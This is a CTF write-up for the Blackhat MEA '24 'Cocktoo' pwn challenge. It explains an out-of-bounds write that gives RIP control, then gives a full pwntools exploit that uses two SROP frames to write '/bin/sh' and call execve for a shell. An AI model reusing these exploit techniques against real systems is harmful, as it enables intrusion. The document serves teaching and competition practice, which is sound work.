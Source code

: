 ```yaml
---
title: Blackhat MEA '24 Quals - Pwn - Cocktoo
date: '2024-09-02'
tags: ['blackhatmea24', 'srop', 'execve']
draft: false
summary: Utilizing an out-of-bound write to gain RIP control and then use a gadget to perform execve syscall
---
```


## Challenge Description

![alt text](/static/writeups/blackhatmea24-quals/image-1.png)

## Solution

This was the easy pwn challenge in BHMEA-24 quals. In this challenge, we were provided with a binary that had the following mitigations:

```
[*] '/home/theflash2k/Documents/CTFs/BHMEA24/pwn/cucktoo/cockatoo'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    Stripped:   No
    Debuginfo:  Yes
```

Looking at the disassembly:

```c:disassembly
int __fastcall main(int argc, const char **argv, const char **envp)
{
  __int64 v3; // rax
  __int64 v4; // rax
  char v6[256]; // [rsp+0h] [rbp-110h] BYREF
  __int64 v7; // [rsp+100h] [rbp-10h]
  unsigned __int64 v8; // [rsp+108h] [rbp-8h]

  v8 = __readfsqword(0x28u);
  memset(v6, 0, 0x108uLL);
  while ( read(0LL, &v6[v7], 1LL) == 1 && v6[v7] != 10 )
  {
    v3 = v7++;
    if ( v3 == 256 )
      goto LABEL_6;
  }
  v6[v7 + 1] = 0;
LABEL_6:
  v4 = strlen(v6);
  write(1LL, v6, v4);
  return 0;
}
```

In this function, we have a buffer of `0x100` size called `v6` and after that, there is another variable which will hold the size called `v7`.

Looking at the code: `memset(v6, 0, 0x108uLL);`, what this will do is simply empty the `v6` buffer. But since the size is `0x108`, it will also empty the `v7` and set the size to 0.

Looking at the condition in while loop:

```c
while ( read(0LL, &v6[v7], 1LL) == 1 && v6[v7] != 10 )
```

We can see that, it will simply read 1-byte into the `v6` buffer at index `v7` and the data should not be `10` i.e. `\n`.

The only problem here is that there exists the canary. Let's try and debug this program in GDB to see how it behaves when we give it a larger input.

Looking at the template we have:

```py:exploit.py
#!/usr/bin/env python3

from pwn import *
context.terminal = ["tmux", "splitw", "-h"]

encode = lambda e: e if type(e) == bytes else str(e).encode()
hexleak = lambda l: int(l[:-1] if l[-1] == b'\n' else l, 16)
fixleak = lambda l: unpack((l[:-1] if l[-1] == b'\n' else l).ljust(8, b"\x00"))

exe = "./cockatoo"
elf = context.binary = ELF(exe)
libc = elf.libc
io = remote(sys.argv[1], int(sys.argv[2])
    ) if args.REMOTE else process(argv=[exe], aslr=False)
if args.GDB: gdb.attach(io, """
    b *main+188
""")

payload = flat(
    cyclic(0x100, n=8)
)
io.sendline(payload)

io.interactive()
```

Now, here we can see what's in the RSP:

![alt text](/static/writeups/blackhatmea24-quals/image-2.png)

We overwrote the last byte of the canary:

![alt text](/static/writeups/blackhatmea24-quals/image-3.png)

However, due to this line of code:

```c
v6[v7 + 1] = 0;
```

It will set the last byte of the canary to NULL. Hence returning the canary back to its original state.

## Overwriting RIP and gaining code execution

What we do is simply send `0x17` and it will RIP control.

> Honestly, I do not know why it skipped over the canary, if you know, please let me know. I just debugged it and it just worked 😭😭😭

```py
payload = flat(
    cyclic(0x100, n=8),
    b"\x17",
    b"AAAAAAAA"
)
io.sendline(payload)
```

![alt text](/static/writeups/blackhatmea24-quals/image.png)

After this, we start looking for gadgets. Some of the gadgets that we find were useful are:

![alt text](/static/writeups/blackhatmea24-quals/image-4.png)

> My command `gadget` missed one useful gadget: `syscall ; ret` (because it using ROPGadget under the hood). So, using `ropper`:

```
0x0000000000401383: syscall;
0x0000000000401a8b: syscall; ret;
```

At this point, I used two SROP payloads.

1. To write `/bin/sh` in the BSS section
2. To call execve.

Since we have the `syscall; ret` gadget, it became really easy.

The first stub would do the following:

```
RAX = 0xF
```

which would invoke the Sigreturn allowing us to write the `/bin/sh` string in the bss. What I did after that is simply store the next ROP chain in the `bss+8`, and in the previous frame, set this address to be equal to RSP. Essentially creating this as the stack and controlling RIP.

So, the final payload becomes:

```py:exploit.py
#!/usr/bin/env python3

from pwn import *
context.terminal = ["tmux", "splitw", "-h"]

encode = lambda e: e if type(e) == bytes else str(e).encode()
hexleak = lambda l: int(l[:-1] if l[-1] == b'\n' else l, 16)
fixleak = lambda l: unpack((l[:-1] if l[-1] == b'\n' else l).ljust(8, b"\x00"))

exe = "./cockatoo"
elf = context.binary = ELF(exe)
libc = elf.libc
io = remote(sys.argv[1], int(sys.argv[2])
    ) if args.REMOTE else process(argv=[exe], aslr=False)
if args.GDB: gdb.attach(io, """
    b *main+188
""")

POP_RAX = 0x0000000000401001
SYSCALL_RET = 0x0000000000401a8b

frame_read = SigreturnFrame()
frame_read.rax = 0x0
frame_read.rdi = 0x0
frame_read.rsi = elf.bss()
frame_read.rdx = 0x100
frame_read.rsp = elf.bss() + 0x8
frame_read.rip = SYSCALL_RET

frame_execve = SigreturnFrame()
frame_execve.rax = 0x3b
frame_execve.rdi = elf.bss()
frame_execve.rsi = 0x0
frame_execve.rdx = 0x0
frame_execve.rip = SYSCALL_RET

payload = flat(
    cyclic(0x100, n=8),
    b"\x17",
    POP_RAX,
    0xf,
    SYSCALL_RET,
    frame_read
)

io.sendline(payload)
time.sleep(0.5)

payload_2 = flat(
    b"/bin/sh\x00",
    POP_RAX,
    0xf,
    SYSCALL_RET,
    frame_execve
)
io.sendline(payload_2)

io.interactive()
```

![alt text](/static/writeups/blackhatmea24-quals/image-6.png)

Overall, the challenge was indeed easy, but I still do not get the actual idea as to how we were able to bypass the canary and directly overwrite the RIP.
